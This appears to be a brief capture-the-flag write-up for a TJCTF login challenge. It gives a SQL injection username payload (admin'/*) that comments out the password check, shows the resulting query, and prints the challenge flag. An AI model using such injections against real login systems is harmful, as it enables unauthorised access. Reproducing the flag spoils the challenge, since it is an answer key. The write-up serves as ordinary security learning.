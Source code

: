 # Login sequel

Set username to "admin'/*" and the password to whatever
this is so the command executed is  
```sql
"SELECT username, password FROM `userandpassword` WHERE username='admin/*' AND password='<md5 HASH object @ 0x00000151246A95F8>'"
/* is a comment so everything after that is ignored.
```
EZ 
#### flag is tjctf{W0w_wHa1_a_SqL1_exPeRt!}
